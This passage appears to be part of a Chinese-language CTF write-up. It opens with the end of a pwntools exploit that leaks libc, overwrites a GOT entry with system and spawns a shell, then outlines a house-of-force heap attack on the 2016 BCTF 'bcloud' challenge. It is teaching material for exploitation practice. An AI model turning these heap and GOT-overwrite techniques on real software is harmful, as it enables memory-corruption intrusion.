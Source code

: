 ```python
des='\x00'
add(name,des)
show()

p.recvuntil('Description: ')
p.recvuntil('Description: ')
puts_libc=u32(p.recvline()[0:4])
puts_off=392352
system_off=241056
system=puts_libc-puts_off+system_off

for i in range(63):
	add('123','123')

name='\x00'*27+p32(0x0804a2a8)       
description='\x00'
add(name,description)               

payload='\x00'*32+p32(0)+p32(0x41)
add_notice(payload) 

clear()                              

scanf=e.got['__isoc99_sscanf']
add('\x00',p32(scanf)) 
payload=p32(system)    
add_notice(payload)             # change got 
                
p.sendline('/bin/sh\x00')


p.interactive()

```


### house of force

#### 2016 bctf --- bcloud
> 这个题目其实算是 off-by-one 加上 house of force.

##### 题目分析
> 首先输入名字,接着输入host和organiser的内容
> 在输入名字的时候由于off-by-one的问题,没有截断字符串,导致可以leak出一个指向堆chunk的指针,为 house of force 提供前提条件
> 在输入host和organiser的内容时候,由于输入的字符串截断不正确,导致可以控制 topchunk 的大小,为 house of force 提供前提条件
> 由于程序没开pie,所以可以知道bss段上全局堆指针的地址, 为 house of force 提供前提条件
> house of force 的三个前提条件都符合, 可以使用 house of force

##### 利用流程
1. house of force 分配一个chunk到bss上, 控制对应的全局指针
2. 由于这个pwn题没有自带的show content的函数的选项,所以我们需要将 free 的 got 改成 puts,然后leak出libc得到system
3. leak出libc之后,改 free 或者 atoi 的 got 为 system 即可.
